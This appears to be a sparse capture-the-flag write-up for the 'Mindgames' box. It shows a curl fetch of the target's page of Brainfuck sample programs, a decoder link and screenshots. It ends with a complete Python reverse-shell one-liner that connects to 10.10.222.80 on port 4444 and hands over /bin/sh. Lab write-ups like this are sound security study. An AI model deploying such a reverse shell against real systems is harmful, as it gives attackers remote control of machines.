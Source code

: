 
```bash
sudo apt-get install html2text<br>
```

```bash
:~/Mindgames# curl -s http://10.10.123.228 | html2text


****** Sometimes, people have bad ideas. ******
****** Sometimes those bad ideas get turned into a CTF box. ******
****** I'm so sorry. ******
Ever thought that programming was a little too easy? Well, I have just the
product for you. Look at the example code below, then give it a go yourself!
Like it? Purchase a license today for the low, low price of 0.009BTC/yr!
***** Hello, World *****
+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[-
>+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>--
-.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.
***** Fibonacci *****
--[----->+<]>--.+.+.[--->+<]>--.+++[->++<]>.[-->+<]>+++++.[--->++<]>--.++[++>--
-<]>+.-[-->+++<]>--.>++++++++++.[->+++<]>++....-[--->++<]>-.---.[--->+<]>--.+[-
---->+<]>+.-[->+++++<]>-.--[->++<]>.+.+[-->+<]>+.[--
>+++<]>+.+++++++++.>++++++++++.[->+++<]>++........---[----->++<]>.------------
-.[--->+<]>---.+.---.----.-[->+++++<]>-.[-->+++<]>+.>++++++++++.[-
>+++<]>++....---[----->++<]>.-------------.[--->+<]>---.+.---.----.-[-
>+++++<]>-.+++[->++<]>.[-->+<]>+++++.[--->++<]>--.[----->++<]>+.++++.-------
-.++.-[--->+++++<]>.[-->+<]>+++++.[--->++<]>--.[----->++<]>+.+++++.--------
-.>++++++++++...[--->+++++<]>.+++++++++.+++.[-->+++++<]>+++.-[--->++<]>-.[---
>+<]>---.-[--->++<]>-.+++++.-[->+++++<]>-.---[----->++<]>.+++[-
>+++<]>++.+++++++++++++.-------.--.--[->+++<]>-.+++++++++.-.-------.-[--
>+++<]>--.>++++++++++.[->+++<]>++....[-->+++++++<]>.++.---------.+++++.++++++.+
[--->+<]>+.-----[->++<]>.[-->+<]>+++++.-----[->+++<]>.[-----
>++<]>-..>++++++++++.
***** Try before you buy. *****

Run it!
Program Output:
```

<p>https://www.dcode.fr/brainfuck-language</p>

<img width="631" height="368" alt="image" src="https://github.com/user-attachments/assets/ea8f9905-20ba-4a6c-9363-a7a1d2df408e" />

<h3>TargetIP</h3>

<img width="1055" height="554" alt="image" src="https://github.com/user-attachments/assets/10a080b0-0a81-4c4c-b402-729570e17ed4" />

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.222.80",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

